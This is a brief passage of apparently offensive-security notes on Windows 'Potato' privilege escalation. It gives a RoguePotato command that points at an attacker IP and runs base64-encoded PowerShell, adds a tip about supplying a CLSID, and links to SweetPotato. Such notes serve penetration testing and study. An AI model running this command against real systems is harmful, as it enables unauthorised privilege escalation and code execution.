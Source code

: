 - Potatoes
	- Rogue Potato
		- `.\RoguePotato.exe -r <attacker IP> -e "cmd.exe /c powershell -enc <base64 encoded powershell> -l 9999`
			- Might have to look up a CLSID and add a `-c “{<CLSID>}"`
	- https://github.com/CCob/SweetPotato